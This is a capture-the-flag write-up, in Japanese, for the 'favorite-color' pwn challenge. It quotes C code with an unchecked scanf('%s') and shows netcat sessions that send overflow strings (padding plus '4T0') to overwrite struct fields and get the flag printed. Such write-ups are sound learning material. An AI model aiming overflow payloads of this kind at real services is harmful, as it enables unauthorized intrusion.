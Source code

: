 
## pwn/favorite-color

142 solves / 185 points

I want to learn more about your favorite colors!

### writeup

ソースファイルの後ろの方で、フラグを読み出している操作がありました。ここを通すために、`scanf("%s", &(c.friendlyName));`をBoFによって、c.r, c.g, c.bの値を変えます。

```c
    scanf("%s", &(c.friendlyName));

    c.r = r;
    c.g = g;
    c.b = b;

    printf("%s (%d, %d, %d) is a pretty cool color... but it's not as cool as %s (%d, %d, %d)...\n",
           c.friendlyName, c.r, c.g, c.b,
           myFavoriteColor.friendlyName, myFavoriteColor.r, myFavoriteColor.g, myFavoriteColor.b);

    if (c.r == myFavoriteColor.r && c.g == myFavoriteColor.g && c.b == myFavoriteColor.b)
    {
        puts("oh wait...");
        puts("it seems as if they're the same...");

        char buf[100] = {0};
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL)
        {
            puts("no flag!!! feels bad L");
            exit(1);
        }

        fgets(buf, 64, file);
        printf("here's a flag: %s", buf);
        fclose(file);
    }
```

色々入力したところし、"A"*37文字以降の3文字を調整すればいいことが分かりました。また、リトルエンディアンを考慮しないといけないのか、"4"(dec: 52, hex: 34), "T"(dec: 84, hex: 54), "0"(dec: 48, hex: 30)と並べないといけませんでした。

```bash
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA244
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA442AA244 (52, 52, 50) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA444
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA444AA444 (52, 52, 52) is a pretty cool color... but it's not as cool as purple (50, 84, 52)...
$ nc tjc.tf 31453
what's your favorite color's rgb value? (format: r, g, b)
50, 84, 52
good... good... and its pretty name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4T0
```